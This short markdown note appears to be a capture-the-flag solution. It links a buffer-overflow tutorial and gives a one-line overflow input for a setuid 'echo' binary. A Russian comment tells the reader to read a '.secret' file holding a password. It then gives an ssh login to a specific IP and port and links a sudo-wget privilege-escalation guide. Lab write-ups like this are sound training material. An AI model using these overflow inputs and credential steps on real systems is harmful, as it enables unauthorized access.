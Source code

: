 


![image](https://github.com/stensil4rt/CodeBy/assets/62753044/129f46fa-dfea-4027-aa7e-82b8a1a399c2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ec09e955-ff2b-4d52-9d4a-46465ac1556a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7cee6efb-9ccb-4798-9a2a-ddec783d331d)



https://cocomelonc.github.io/pwn/2021/10/19/buffer-overflow-1.html

``./usr/bin/echo $(python3 -c 'print("A"*8001+"\x01")')``

Читаем файл .secret там пароль

Заходим по ssh ``ssh nolan@62.173.140.174 -p 18822``

https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-wget-privilege-escalation/



